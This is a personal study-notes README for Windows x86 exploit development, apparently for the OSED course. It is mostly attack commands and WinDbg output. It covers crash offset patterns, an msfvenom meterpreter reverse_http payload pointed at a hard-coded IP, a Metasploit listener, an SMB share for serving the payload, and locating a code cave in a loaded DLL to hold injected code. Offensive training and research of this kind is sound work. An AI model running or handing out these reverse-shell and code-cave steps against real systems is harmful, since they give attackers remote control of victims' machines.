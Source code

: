 # x86Win-OSED-Notes

# Pattern generation:
```
$ msf-pattern_create -l 800
$ msf-pattern_offset -l 800 -q 42306142
```

# met payload:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe

# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

# smbserver:
```
sudo smbserver.py met /home/kali/ -smb2support
```

# Code cave search:
we can find the offset to the PE header by dumping the DWORD at offset 0x3C from the MZ header. Then, add 0x2C to the offset to find the offset to the code section
```
0:077> dd libeay32IBM019 + 3c L1
031f003c 00000108
0:077> dd libeay32IBM019 + 108 + 2c L1
031f0134 00001000
0:077> ? libeay32IBM019 + 1000
Evaluate expression: 52367360 = 031f1000
```
Use the !address or !vprot command to collect information about the code section.
```
0:077> !address 031f1000
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```
Check for sufficient size for code cave
```
0:077> dd 03283000-400
03282c00 00000000 00000000 00000000 00000000
03282c10 00000000 00000000 00000000 00000000
03282c20 00000000 00000000 00000000 00000000
03282c30 00000000 00000000 00000000 00000000
03282c40 00000000 00000000 00000000 00000000
03282c50 00000000 00000000 00000000 00000000
03282c60 00000000 00000000 00000000 00000000
03282c70 00000000 00000000 00000000 00000000

0:077> ? 03283000-400 - libeay32IBM019
Evaluate expression: 601088 = 00092c00

0:077> !address 03282c00
Usage: Image
Base Address: 031f1000
End Address: 03283000
Region Size: 00092000 ( 584.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 031f0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
```
Alternative: Use Pykd code caver: https://github.com/nop-tech/code_caver
```
!py C:\Users\admin\Desktop\code_caver.py <startAddress> <endAddress>
```
